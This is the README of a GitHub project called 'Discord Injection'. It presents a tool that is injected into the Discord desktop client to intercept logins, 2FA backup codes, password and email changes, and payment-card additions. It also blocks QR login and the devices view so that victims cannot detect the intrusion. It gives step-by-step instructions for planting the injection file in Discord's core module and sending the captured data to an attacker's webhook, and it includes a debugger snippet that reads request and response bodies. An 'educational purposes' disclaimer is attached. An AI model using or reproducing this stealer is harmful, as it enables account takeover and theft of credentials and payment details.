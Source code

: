 <h1 align="center">
  Discord Injection 💉
</h1>

<p align="center">
   Discord HTTP requests interception POC, including backup codes request and many others !
</p>

## Features
- Intercept login, register and 2FA login requests
- Intercept backup codes requests
- Intercept email/password changes requests
- Intercept credit card/paypal adding
- Logout user after initial injection
- Block usage of QR Code to login
- Block request to see devices

## Installation
- Completely close Discord
- Copy the [injection code](https://raw.githubusercontent.com/hackirby/discord-injection/main/injection.js) inside your Discord desktop core:

`%APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js`

- Replace `%WEBHOOK%` by your Discord webhook. The informations intercepted will be sent this way.
- Restart Discord

## Preview
### Backup codes sniffing
![image](./assets/codes.png)
### Devices blocking
![image](./assets/devices.png)

## How does backup codes sniffing work ?
I use the [debugger](https://www.electronjs.org/docs/latest/api/debugger) instead of the [WebRequests instance methods](https://www.electronjs.org/docs/latest/api/web-request#instance-methods). It allow me to get request body AND response body:

```js
mainWindow.webContents.debugger.on('message', async (_, method, params) => {
    if (method !== 'Network.responseReceived') return;
    if (![200, 202].includes(params.response.status)) return;

    const responseUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getResponseBody', {
        requestId: params.requestId
    });
    const responseData = JSON.parse(responseUnparsedData.body);

    const requestUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getRequestPostData', {
        requestId: params.requestId
    });
    const requestData = JSON.parse(requestUnparsedData.postData);
})
```
The backup codes are in the response body of `/mfa/codes-verification` request

## Contributing
If you wish to contribute to this project, kindly open an issue or submit a pull request with your proposed changes. We warmly welcome contributions from the community.

## Enjoying the Project?
- Leave a Star 🌟: Click on the star button at the top of the GitHub repository to show your appreciation.
- Follow me on GitHub: Stay updated with the latest developments by following my GitHub profile.
- Donate ☕: If you're feeling generous and would like to contribute financially, you can donate to help sustain and improve this project. Every little bit helps!

<a href='https://ko-fi.com/hackirby'><img src='https://storage.ko-fi.com/cdn/kofi3.png' width=150></a>

## License
This project is licensed under the MIT License. For more information, please consult the LICENSE file.

## Disclaimer:

### Important Notice:
This injection is inteded for educational purposes only. This is provided strictly for educational and research purposes. Under no circumstances this should be used for any malicious activities, including but not limited to unauthorized access, data theft, or any other harmful actions.

### Usage Responsibility:

By accessing and using this injection, you acknowledge that you are solely responsible for your actions. Any misuse of this injection is strictly prohibited, and the creator (hackirby) disclaims any responsibility for how this injection is utilized. You are fully accountable for ensuring that your usage complies with all applicable laws and regulations in your jurisdiction.

### No Liability:

The creator (hackirby) of this injection shall not be held responsible for any damages or legal consequences resulting from the use or misuse of this software. This includes, but is not limited to, direct, indirect, incidental, consequential, or punitive damages arising out of your access, use, or inability to use this injection.

### No Support:

The creator (hackirby) will not provide any support, guidance, or assistance related to the misuse of this injection. Any inquiries regarding malicious activities will be ignored.

### Acceptance of Terms:

By using this injection, you signify your acceptance of this disclaimer. If you do not agree with the terms stated in this disclaimer, do not use this injection.

